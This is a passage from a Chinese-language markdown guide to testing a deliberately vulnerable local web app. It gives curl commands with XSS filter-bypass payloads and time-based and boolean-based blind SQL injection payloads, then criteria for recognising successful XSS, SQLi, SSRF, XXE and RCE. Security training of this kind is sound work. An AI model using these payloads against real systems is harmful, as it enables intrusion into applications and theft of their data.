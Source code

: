 
## 🔧 高级测试技巧

### 1. 绕过过滤器
```bash
# URL编码绕过
curl -X GET "http://localhost:8080/api/xss/reflected?input=%3Cscript%3Ealert('XSS')%3C/script%3E"

# 双重编码
curl -X GET "http://localhost:8080/api/xss/reflected?input=%253Cscript%253Ealert('XSS')%253C/script%253E"

# 大小写混合
curl -X GET "http://localhost:8080/api/xss/reflected?input=<ScRiPt>alert('XSS')</ScRiPt>"
```

### 2. 时间盲注测试
```bash
# SQL时间盲注
curl -X GET "http://localhost:8080/api/sqli/vulnerable/user/1'; IF (1=1) WAITFOR DELAY '00:00:05' --"

# 条件时间盲注
curl -X GET "http://localhost:8080/api/sqli/vulnerable/user/1'; IF (SELECT COUNT(*) FROM users WHERE username='admin') > 0 WAITFOR DELAY '00:00:05' --"
```

### 3. 布尔盲注测试
```bash
# 布尔盲注 - 真条件
curl -X GET "http://localhost:8080/api/sqli/vulnerable/user/1' AND 1=1 --"

# 布尔盲注 - 假条件
curl -X GET "http://localhost:8080/api/sqli/vulnerable/user/1' AND 1=2 --"
```

---

## 📊 测试结果验证

### 成功指标
- **XSS**: 返回包含未转义脚本的HTML
- **SQL注入**: 返回数据库错误信息或意外数据
- **SSRF**: 成功访问内网资源或返回内网响应
- **XXE**: 返回本地文件内容或外部资源
- **RCE**: 返回系统命令执行结果

### 安全指标
- **安全接口**: 应该返回错误信息或过滤后的安全内容
- **输入验证**: 恶意输入被正确过滤或拒绝
- **错误处理**: 不泄露敏感的系统信息

---